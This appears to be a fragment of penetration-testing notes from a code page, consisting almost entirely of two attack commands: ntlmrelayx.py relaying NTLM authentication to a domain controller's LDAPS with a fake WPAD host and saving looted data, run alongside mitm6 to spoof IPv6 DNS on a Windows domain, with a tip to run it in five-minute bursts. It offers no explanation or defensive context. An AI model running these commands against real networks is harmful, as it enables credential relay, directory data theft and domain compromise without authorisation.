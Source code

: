

In tab
`ntlmrelayx.py -6 -t ldaps://<IP> -wh fakewpad.<Domain>.<TLD> -l lootme`

In another tab
`sudo mitm6 -d <domain>`

Note: only run this for 5 minutes at a time